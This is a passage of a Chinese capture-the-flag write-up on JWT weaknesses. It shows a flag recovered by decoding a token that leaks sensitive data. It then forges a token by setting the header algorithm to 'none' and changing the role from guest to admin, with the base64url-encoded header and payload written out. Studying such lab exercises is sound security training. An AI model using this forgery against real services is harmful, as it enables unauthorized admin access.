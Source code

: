 ## 4.1 敏感信息泄露
访问题目地址->输入admin/admin登录->产生token，再次刷新网址，抓包发现JWT格式token
![image.png](https://cdn.nlark.com/yuque/0/2022/png/22669825/1645596047802-f7e9b324-0501-4b8d-b08c-5af1f2dc9126.png#clientId=u43c3d3c0-d629-4&from=paste&height=378&id=u514fcd88&margin=%5Bobject%20Object%5D&name=image.png&originHeight=504&originWidth=938&originalType=binary&ratio=1&size=91567&status=done&style=none&taskId=u43e46be4-a14e-42cd-9546-0c18fd959dc&width=704)


去[jwt解密网站](https://jwt.io/)解密，存在敏感信息泄露，获得flag
![image.png](https://cdn.nlark.com/yuque/0/2022/png/22669825/1645596124594-4537311d-2606-45c0-a733-c018a22b0c62.png#clientId=u43c3d3c0-d629-4&from=paste&height=268&id=u13a65544&margin=%5Bobject%20Object%5D&name=image.png&originHeight=536&originWidth=1173&originalType=binary&ratio=1&size=77886&status=done&style=none&taskId=u02ee358a-263a-432c-9af8-7772d4c247e&width=586.5)
​

## 4.2 无签名验证漏洞（none）
> 一些JWT库也支持none算法，即不使用签名算法。当alg字段为空时，后端将不执行签名验证。

### 4.2.1 抓取token
访问题目地址->输入admin/admin登录->产生token，再次刷新网址，抓包发现JWT格式token
![image.png](https://cdn.nlark.com/yuque/0/2022/png/22669825/1645596560015-08dbafed-1764-48a7-8644-e4b9d4954bf7.png#clientId=u43c3d3c0-d629-4&from=paste&height=211&id=u719ee9f2&margin=%5Bobject%20Object%5D&name=image.png&originHeight=422&originWidth=1413&originalType=binary&ratio=1&size=109794&status=done&style=none&taskId=ub2c70f1d-3aa0-41d1-b7f5-fbfc393871c&width=706.5)


### 4.2.2 去[jwt解密网站](https://jwt.io/)解密
![image.png](https://cdn.nlark.com/yuque/0/2022/png/22669825/1645596604455-d93e1d1a-817d-4684-a3a3-b645c1b79a06.png#clientId=u43c3d3c0-d629-4&from=paste&height=339&id=ubef2b13b&margin=%5Bobject%20Object%5D&name=image.png&originHeight=678&originWidth=1144&originalType=binary&ratio=1&size=79858&status=done&style=none&taskId=ud270adbe-0947-45d6-a7b8-bbb9e98d6c0&width=572)
​

### 4.2.3 修改JWT

- [base64url编码工具](https://base64.guru/standards/base64url/encode)
#### 1）修改Header，使用none算法
```shell
{
"typ":"JWT",
"alg":"none"
}

ew0KInR5cCI6IkpXVCIsDQoiYWxnIjoibm9uZSINCn0
```
![image.png](https://cdn.nlark.com/yuque/0/2022/png/22669825/1645596708178-f46ff13a-10be-4b63-a988-e0c4d00cbb28.png#clientId=u43c3d3c0-d629-4&from=paste&height=220&id=u16d39944&margin=%5Bobject%20Object%5D&name=image.png&originHeight=440&originWidth=538&originalType=binary&ratio=1&size=19780&status=done&style=none&taskId=u7680ae15-129f-44c6-bf27-0cab30375e9&width=269)


#### 2）修改payload信息，将guest改为admin
```shell
{
  "username": "admin",
  "password": "admin",
  "role": "admin"
}

ew0KICAidXNlcm5hbWUiOiAiYWRtaW4iLA0KICAicGFzc3dvcmQiOiAiYWRtaW4iLA0KICAicm9sZSI6ICJhZG1pbiINCn0
```
![image.png](https://cdn.nlark.com/yuque/0/2022/png/22669825/1645596852534-f3690bf7-3035-4e9d-9219-efacc95a0380.png#clientId=u43c3d3c0-d629-4&from=paste&height=214&id=u848a598b&margin=%5Bobject%20Object%5D&name=image.png&originHeight=428&originWidth=899&originalType=binary&ratio=1&size=26184&status=done&style=none&taskId=u2e6cd205-cdde-4748-b6a9-38cb1d4660c&width=449.5)
